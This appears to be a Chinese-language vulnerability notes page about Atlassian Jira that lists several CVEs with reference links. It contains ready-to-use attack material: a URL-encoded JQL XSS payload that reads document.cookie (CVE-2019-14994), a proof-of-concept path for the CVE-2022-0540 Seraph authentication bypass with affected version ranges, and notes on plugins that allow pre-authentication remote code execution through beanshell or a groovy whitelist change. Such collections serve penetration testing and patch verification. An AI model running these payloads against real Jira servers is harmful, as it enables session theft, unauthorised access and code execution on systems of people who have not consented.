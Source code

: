 ### CVE-2019-14994
```
jql=issuetype%20%3D%20Epic%20AND%20%22Story%20Points%22%20%3C%3D%20%22%5C%22%3E%3Cscript%3Ealert(document.cookie)%3C%2Fscript%3E%22%20AND%20%22Story%20Points%22%20%3E%3D%20%221%22
```

#### Ref
- https://github.com/bugbounty-site/exploits/blob/master/CVE-2019-14994/exploit.py

### [CVE-2021-26086] Jira受限文件读取绕过
- [CVE-2021-26086(CVE-2021-26085)受限文件读取挖掘分析](https://tttang.com/archive/1323/)
- [jira环境搭建及受限文件读取原理和深思CVE-2021-26086](https://xz.aliyun.com/t/10922)

### [CVE-2021-39115] Template Injection in Email Templates leads to code execution on Jira Service Management Server
- https://github.com/PetrusViet/CVE-2021-39115
- [Atlassian JIRA服务器模板注入漏洞分析及挖掘](https://xz.aliyun.com/t/11354)

### [CVE-2022-0540] Jira Seraph认证绕过
影响的产品：
```
Jira
Jira Core Server
Jira Software Server
Jira Software Data Center
Jira Service Management
Jira Service Management Server
Jira Service Management Data Center
```
影响版本：
对于Jira Core Server/Jira Software Server/Jira Software Data Center
```
All versions before 8.13.18
8.14.x
8.15.x
8.16.x
8.17.x
8.18.x
8.19.x
8.20.x before 8.20.6
8.21.x
```
对于Jira Service Management Server/Jira Service Management Data Center
```
All versions before 4.13.18
4.14.x
4.15.x
4.16.x
4.17.x
4.18.x
4.19.x
4.20.x before 4.20.6
4.21.x
```


### PoC
```
/InsightPluginShowGeneralConfiguration.jspa;
```
### 已知的可利用插件
- [WBS Gantt-Chart for Jira](https://marketplace.atlassian.com/apps/1211768/wbs-gantt-chart-for-jira?hosting=datacenter&tab=versions): Preauth RCE (you can write any Java code with beanshell).
- [Insight - Asset Management](https://marketplace.atlassian.com/apps/1212137/insight-asset-management?tab=overview&hosting=datacenter): Bundled with Jira Service Management Server and Data Center, View, change Insight configuration (can RCE with object schema manager permissions by change the groovy script whitelist).


Ref:
- https://github.com/adampielak/nuclei-templates/blob/41b5ac924c9324599d979bc1f36c058f167b31d4/CVE-2022-0540.yaml
- https://blog.viettelcybersecurity.com/cve-2022-0540-authentication-bypass-in-seraph/
- https://confluence.atlassian.com/jira/jira-security-advisory-2022-04-20-1115127899.html
- [CVE-2022-0540: Jira身份验证绕过分析](https://xz.aliyun.com/t/11543)

